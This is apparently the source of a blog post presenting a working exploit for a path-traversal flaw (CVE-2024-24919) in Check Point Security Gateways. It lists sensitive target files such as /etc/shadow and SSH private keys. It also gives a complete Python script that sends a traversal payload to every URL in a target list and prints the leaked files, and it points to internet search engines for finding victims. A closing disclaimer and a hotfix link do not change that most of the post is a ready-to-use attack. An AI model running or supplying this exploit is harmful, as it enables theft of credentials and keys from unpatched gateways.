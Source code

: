 ```yaml
---
title: CVE-2024-24919
description: Allows an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with remote Access VPN or Mobile Access Software Blades.
author: BW
date: 2024-06-12 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
  lqip: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
---
```

Proof of Concept python script that exploits what's essentially a path traversal issue.

Below are a list of files that are vulnerable - including the shadow file which contains the hashed passwords.
1. ../../../../../../../etc/fstab
2. ../../../../../../../etc/shadow
3. ../../../../../../../sysimg/CPwrapper/SU/Products.conf
4. ../../../../../../../config/db/initial
5. ../../../../../../../etc/passwd
6. ../../../../../../../home/*/.ssh/authorized_keys
7. ../../../../../../../opt/checkpoint/conf/
8. ../../../../../../../etc/ssh/sshd_config
9. ../../../../../../../etc/vpn/vpn.conf
10. ../../../../../../../home/*/.ssh/id_rsa

### The PoC Script
```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

vuln = ['root:', 'nobody:']

def make_request(url, payload=None, headers=None):
    try:
        response = requests.post(url, data=payload, headers=headers, verify=False)
        if response.ok:
            for word in vuln:
                if word in response.text:
                    print(f"[+] {url} is vulnerable")
                    if payload and payload.startswith("aCSHELL/../../../../../../../etc/shadow"):
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      etc/shadow found:               ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    elif payload:
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      Your file was found:            ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    return
            print(f"[-] {url} is not vulnerable")
        else:
            print(f"[-] {url} responded with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Error making request to {url}: {e}")

def main():
    payload = "aCSHELL/../../../../../../../etc/shadow"
    parser = argparse.ArgumentParser(description="CVE-2024-24919 POC")
    parser.add_argument("-l", metavar='filename', type=str, help="File containing list of HTTP/HTTPS targets")
    parser.add_argument("-f", metavar='file', type=str, help="File to read for custom payload (May break on multiple targets with unknown files.)")
    args = parser.parse_args()

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-User": "?1",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Te": "trailers",
        "Connection": "close"
    }

    payload_base = "aCSHELL/../../../../../../../{}"

    if args.f:
        payload = payload_base.format(args.f)

    if args.l:
        try:
            with open(args.l, 'r') as file:
                urls = file.readlines()
                for url in urls:
                    url = url.strip()
                    if url.startswith('http://') or url.startswith('https://'):
                        make_request(url + '/clients/MyCRL', payload=payload, headers=headers)
                    else:
                        print(f"Skipping invalid URL: {url}")
        except FileNotFoundError:
            print(f"Error: File '{args.l}' not found.")
    else:
        print("Please provide a file containing list of HTTP/HTTPS targets using -l option.")

if __name__ == "__main__":
    main()
```
{: file='exploit.py'}

### Finding targets

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/netlas.png){: width="972" height="589" .w-75 .normal}

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/shodan.png){: width="972" height="589" .w-75 .normal}

### Example of output

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/output.png){: width="972" height="589" .w-75 .normal}

> This is for educational purposes. Only try this on systems you own. Please don't do anything illegal.
{: .prompt-danger }


Check Point released a hotfix for this, you can read more about it here: <https://support.checkpoint.com/results/sk/sk182336>
